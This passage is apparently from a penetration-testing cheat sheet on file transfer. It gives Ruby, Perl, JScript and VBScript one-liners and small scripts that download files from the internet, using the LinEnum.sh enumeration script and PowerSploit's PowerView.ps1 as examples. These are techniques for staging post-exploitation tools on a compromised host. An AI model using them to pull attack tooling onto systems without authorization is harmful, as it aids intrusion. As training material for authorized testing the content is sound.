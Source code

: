 ### Ruby
- **Method**: Use `-e` for one-liners.
- **Example**:
  ```bash
  ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
  ```

### Perl
- **Method**: Use `-e` for one-liners.
- **Example**:
  ```bash
  perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
  ```

### JavaScript (Windows)
- **Method**: Use `cscript.exe` to run JavaScript for downloads.
- **Code** (`wget.js`):
  ```javascript
  var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
  WinHttpReq.Open("GET", WScript.Arguments(0), /*async*/false);
  WinHttpReq.Send();
  BinStream = new ActiveXObject("ADODB.Stream");
  BinStream.Type = 1;
  BinStream.Open();
  BinStream.Write(WinHttpReq.ResponseBody);
  BinStream.SaveToFile(WScript.Arguments(1));
  ```
- **Execution**:
  ```cmd
  cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 PowerView.ps1
  ```

### VBScript (Windows)
- **Context**: Default in Windows since Windows 98.
- **Code** (`wget.vbs`):
  ```vbscript
  dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
  dim bStrm: Set bStrm = createobject("Adodb.Stream")
  xHttp.Open "GET", WScript.Arguments.Item(0), False
  xHttp.Send
  with bStrm
      .type = 1
      .open
      .write xHttp.responseBody
      .savetofile WScript.Arguments.Item(1), 2
  end with
  ```
- **Execution**:
  ```cmd
  cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 PowerView.ps1
  ```
